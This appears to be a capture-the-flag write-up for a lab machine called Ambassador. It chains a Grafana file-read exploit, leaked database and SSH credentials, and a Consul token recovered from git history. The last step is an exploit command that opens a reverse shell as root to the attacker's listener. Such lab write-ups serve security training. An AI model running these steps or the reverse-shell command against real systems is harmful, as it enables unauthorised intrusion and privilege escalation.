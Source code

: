 # Ambassador

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.228.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 05:49 EDT
Nmap scan report for 10.129.228.56
Host is up (0.015s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
3306/tcp open  mysql
```

### Port 80

The only interesting thing here is the mentioning of the user `developer`:

<figure><img src="../../../.gitbook/assets/image (1434).png" alt=""><figcaption></figcaption></figure>

Other than that, there was not much here.

### Grafana LFI -> Creds

Port 3000 was hosting a Grafana instance.

<figure><img src="../../../.gitbook/assets/image (1458).png" alt=""><figcaption></figcaption></figure>

This version of Grafana is vulnerable to public exploits:

```
$ searchsploit grafana                
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Grafana 7.0.1 - Denial of Service (PoC)                    | linux/dos/48638.sh
Grafana 8.3.0 - Directory Traversal and Arbitrary File Rea | multiple/webapps/50581.py
----------------------------------------------------------- ---------------------------------
```

We can confirm that this works:

<figure><img src="../../../.gitbook/assets/image (2790).png" alt=""><figcaption></figcaption></figure>

Grafana stores a configuration file at `/etc/grafana/grafana.ini`, so let's start there. We can find some passwords within that:

```
# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
```

With this, we can login to the admin panel:

<figure><img src="../../../.gitbook/assets/image (3342).png" alt=""><figcaption></figcaption></figure>

Within the configuration files, we can find a `mysql.yaml` file.

<figure><img src="../../../.gitbook/assets/image (878).png" alt=""><figcaption></figcaption></figure>

We can't edit it, and there wasn't any credentials in it:

<figure><img src="../../../.gitbook/assets/image (2887).png" alt=""><figcaption></figcaption></figure>

However, maybe we can use the LFI to read this file on the machine itself.&#x20;

{% embed url="https://grafana.com/docs/grafana/latest/administration/provisioning/" %}

Based on this documentation, it is located in`/etc/grafana/provisioning/datasources`.&#x20;

<figure><img src="../../../.gitbook/assets/image (2008).png" alt=""><figcaption></figcaption></figure>

Using these creds, we can login to the MySQL database on the machine:

```
$ mysql -u grafana -h 10.129.228.56 -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

Then, we can use the `whackywidget` database to find the password for `developer`.&#x20;

```
MySQL [whackywidget]> select * from users\g
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+

$ echo YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== | base64 -d
anEnglishManInNewYork027468
```

We can then login as `developer` via `ssh` using this password.

## Privilege Escalation

### Consul Token -> RCE

I was wondering where that `whackywidget` dataabse came from and why it had the password for the user instead of the `grafana` database. Within the `/opt` directory, we can find some additional folders:

```
developer@ambassador:/opt$ ll
total 16
drwxr-xr-x  4 root   root   4096 Sep  1  2022 ./
drwxr-xr-x 20 root   root   4096 Sep 15  2022 ../
drwxr-xr-x  4 consul consul 4096 Mar 13  2022 consul/
drwxrwxr-x  5 root   root   4096 Mar 13  2022 my-app/

developer@ambassador:/opt/my-app$ ls
env  whackywidget
```

`consul` is an application used to configure and spin up applications with databases:

{% embed url="https://github.com/hashicorp/consul" %}

The application on the machine starts on port 8500, and we can also find out the version running:

```
developer@ambassador:/opt/my-app/env$ netstat -tulon
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8300          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8301          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8302          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      off (0.00/0/0)

developer@ambassador:/opt/my-app/env$ consul --version
Consul v1.13.2
```

There are some exploits for this:

{% embed url="https://github.com/owalid/consul-rce" %}

However, we first need to find the token within the files. Within the `/opt/my-app` directory, there's a `.git` repository.

```
developer@ambassador:/opt/my-app$ ls -la
total 24
drwxrwxr-x 5 root root 4096 Mar 13  2022 .
drwxr-xr-x 4 root root 4096 Sep  1  2022 ..
drwxrwxr-x 4 root root 4096 Mar 13  2022 env
drwxrwxr-x 8 root root 4096 Mar 14  2022 .git
-rw-rw-r-- 1 root root 1838 Mar 13  2022 .gitignore
drwxrwxr-x 3 root root 4096 Mar 13  2022 whackywidget
```

If we check the logs, we can find the token:

```
developer@ambassador:/opt/my-app$ git log -p -2
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```

Afterwards, just run the PoC above on the machine itself.&#x20;

```bash
developer@ambassador:~$ python3 exploit_consul.py --rhost 127.0.0.1 --rport 8500 --lhost 10.10.14.13 --lport 443 --token bb03b43b-1d81-d62b-24b5-39540ee469b5
```

This would give us a reverse shell as `root`.

<figure><img src="../../../.gitbook/assets/image (3192).png" alt=""><figcaption></figcaption></figure>
